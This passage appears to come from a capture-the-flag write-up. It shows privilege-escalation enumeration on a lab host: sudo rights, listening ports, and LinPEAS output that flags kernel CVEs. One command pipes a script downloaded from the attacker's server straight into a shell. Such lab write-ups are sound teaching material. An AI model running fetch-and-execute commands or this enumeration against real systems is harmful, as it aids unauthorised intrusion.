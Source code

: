 I'm user `files`!

### files to yash

Let's enumerate!

**Sudo permission:**
```
files@safezone:~$ sudo -l
Matching Defaults entries for files on safezone:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH
    XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User files may run the following commands on safezone:
    (yash) NOPASSWD: /usr/bin/id
```

As you can see, **we can run `/usr/bin/id` as user `yash` without password!**

**But looks like we can't escalate to `yash` via that:**
```
files@safezone:~$ sudo -u yash /usr/bin/id
uid=1000(yash) gid=1000(yash) groups=1000(yash),4(adm),24(cdrom),30(dip),46(plugdev),113(lpadmin),114(sambashare)
```

**LinPEAS:**
```
┌──(root🌸siunam)-[/usr/share/peass/linpeas]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

files@safezone:~$ curl -s http://10.9.0.253/linpeas.sh | sh
[...]
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034

Potentially Vulnerable to CVE-2022-2588
[...]
```

Kernel exploit... Probably not the intended way to escalate to root.

**Listening port:**
```
files@safezone:~$ netstat -tunlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 10.10.245.138:68         0.0.0.0:*                           -
```